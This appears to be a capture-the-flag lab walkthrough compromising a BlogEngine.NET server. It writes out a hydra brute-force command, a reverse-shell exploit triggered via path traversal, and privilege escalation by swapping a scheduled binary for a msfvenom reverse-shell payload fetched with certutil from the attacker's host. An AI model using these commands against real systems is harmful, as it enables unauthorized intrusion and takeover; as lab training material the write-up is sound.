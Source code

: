 ![](../attachment/13a104c8530518f163f1a97a45ccda63.png)

There is a login page:
![](../attachment/caa9fb744f88422c76678155fa8d1f99.png)

Now using burp to intercept

![](../attachment/1b8e5ff1304cdc14aaf311c66cdab431.png)
It is a post request so we can use hydra now to bruteforce.

Then using hydra to bruteforce:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.110.156 http-post-form "/Account/login.aspx:__VIEWSTATE=Gcy%2FjNJ7ap0W2Uiv5A5KnEzh5Gtdf6rDAKFo3y82ON1x6S7mN94wlfL1%2F8KB5HNCWW%2FbfXfwf9%2BDZUCvJxmXJNj17sV%2BX%2Bp9oErdztjeAG%2BVxODJOmbQN%2BZXsCajG9BKxi6uEZghxyVyqMQxKbBNp46T4tAJk48%2BJWf9D9uPD%2BmQFFeC&__EVENTVALIDATION=GHu5S1A0mHw9EQ7ulT5cP1jPOPcVMg2PQWDd8jnNoNklNY0oHZDvrlLbQ7wv0N6QlPhctU%2Fsu%2BYzsfEwEzJUMyFp1E2BUxxLnTvOyStah1yx9K7lpAVCOBZ4IM%2Fa%2BsdFqb7vb7tGhY35%2BEj%2FgcQsv8VHQZE%2F%2B0eP%2FQNzZyOjXKD18vkE&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
![](../attachment/108a819f9d47c3b04e0d9104960a4d5d.png)

We have a password.

Now we can login and check version in about section:
![](../attachment/ab74ad46f0f9a1b336b497a84f5cce2c.png)
Now we can search for exploits:
```
searchsploit blogengine
```
![](../attachment/589c9eaa6a41ba5f8593b908446cd846.png)

Now we can use this exploit:
Run a listener:
```
sudo rlwrap nc -nlvp 8000
```

Go to  http://10.11.103.226/admin/app/editor/editpost.cshtml
Now upload the file as PostView.ascx:
![](../attachment/394cb969dfe0ba89e0e573bd9165c76f.png)
![](../attachment/00479e3a3ebe5ea1b6ec72ae8c5286b3.png)
Now visit http://10.10.248.167/?theme=../../App_Data/files
We get a shell back:
![](../attachment/d730a6e26a0bcc12ecf51d6589c79460.png)

We are `iis apppool\blog`
Running winpeas:
![](../attachment/703eab76b2eba894e1b824d773ae861b.png)
`C:\Program Files (x86)\SystemScheduler` is suspicious.\

![](../attachment/cecb6996d90bebce8a177dadee1f9d23.png)
In Events:
![](../attachment/7085f539403058aaaf2ade8955e15331.png)
There is a log.

Viewing the logs
![](../attachment/7d601412023c816cc01532b8322ceebf.png)

Message.exe seems to be running repeatedly.


Now crafting a msfvenom payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.103.226 LPORT=8080 -f exe -o Message.exe
```
Now we can rename the original binary to Message.bak and transfer our new binary:
```
ren Message.exe Message.bak
```
```
certutil -urlcache -f http://10.11.103.226:/Message.exe Message.exe
```

Now run a listener:
```
sudo rlwrap nc -nlvp 8080
```
![](../attachment/b57b8a9d3feef69191dfbe0938a23c98.png)
We are administrator.

